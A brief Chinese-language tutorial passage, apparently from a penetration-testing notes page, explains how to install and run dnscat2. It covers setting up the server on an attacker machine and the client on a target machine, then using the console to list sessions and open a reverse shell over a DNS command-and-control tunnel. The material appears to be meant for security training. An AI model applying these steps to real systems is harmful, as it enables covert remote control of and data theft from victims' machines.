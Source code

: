   - dnscat2是基于C/S架构的一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道，它的一大特色就是服务端会有一个命令行控制台，所有的指令都可以在该控制台内完成。包括：文件上传、下载、反弹Shell等等。
  - 服务端用来建立监听，等待连接。可以说是一个用来建立DNS服务端的程序。

- Dnscat2工具安装

  - 服务端安装：（攻击机）

    ```
    git clone https://github.com/iagox86/dnscat2.git
    cd dnscat2/server/
    gem install bundler
    bundler install
    ```

  - 客户端安装：（靶机）

    ```
    git clone https://github.com/iagox86/dnscat2.git
    cd dnscat2/client/
    make
    ```

- Dnscat2工具使用

  - 服务端
    - `ruby dnscat.rb`
  - 客户端
    - `/dnscat2 --dns server=127.0.0.1,port=53`

- Dnscat2建立连接

  ```
  session             #查看已建立的连接
  session -i 1        #对会话进行连接
  ping                #测试连接情况
  shell               #建立反弹shell
  ctrl-z              #按键Ctrl+Z退出当前会话
  session -i 2        #连接反弹shell
  ```

![](./images/dnscat2.png)
